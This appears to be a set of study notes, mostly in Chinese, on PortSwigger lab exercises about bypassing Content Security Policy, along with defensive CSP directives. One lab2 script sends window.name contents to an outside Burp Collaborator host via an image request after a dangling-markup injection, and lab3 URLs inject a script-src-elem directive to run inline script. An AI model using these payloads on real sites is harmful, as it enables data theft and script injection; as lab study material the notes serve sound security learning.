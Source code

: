 有些策略限制性更强，可以阻止所有形式的外部请求。然而，仍然可以通过引发一些用户交互来绕过这些限制。要绕过这种形式的策略，您需要注入一个HTML元素，单击该元素时，该元素将存储注入元素中包含的所有内容，并将其发送到外部服务器。

```javascript
lab2：
<script>
if(window.name) {
new Image().src='//6qxrdc148ae8clypvz0qsxqin9t5hu.burpcollaborator.net?'+encodeURIComponent(window.name);
} else {
location = 'https://acd31fbd1e290c25800710d2005000d4.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://ac8e1fe11e1b0c568004101a0175005b.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

## Mitigating dangling markup attacks using CSP

The following directive will only allow images to be loaded from the same origin as the page itself:

`img-src 'self'`

The following directive will only allow images to be loaded from a specific domain:

`img-src https://images.normal-website.com`

## Bypassing CSP with policy injection

可能会遇到一个将输入反映到实际策略中的网站，最有可能是在`ReportURI`指令中。你可以注入`;`指示

Chrome最近引入了script-src-elem指令，允许控制script元素，但不能控制事件。至关重要的是，这个新指令允许覆盖现有的 script-src指令

```javascript
lab3:
https://your-lab-id.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27

https://your-lab-id.web-security-academy.net/?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

注入使用CSP中的脚本script-src-elem指令。此指令允许您仅针对脚本元素。使用此指令，您可以覆盖现有的script-src规则，使您能够注入不安全的 unsafe-inline，从而允许您使用内联脚本。

## Protecting against [clickjacking](https://portswigger.net/web-security/clickjacking) using CSP

The following directive will only allow the page to be framed by other pages from the same origin:

`frame-ancestors 'self'`

The following directive will prevent framing altogether:

`frame-ancestors 'none'`
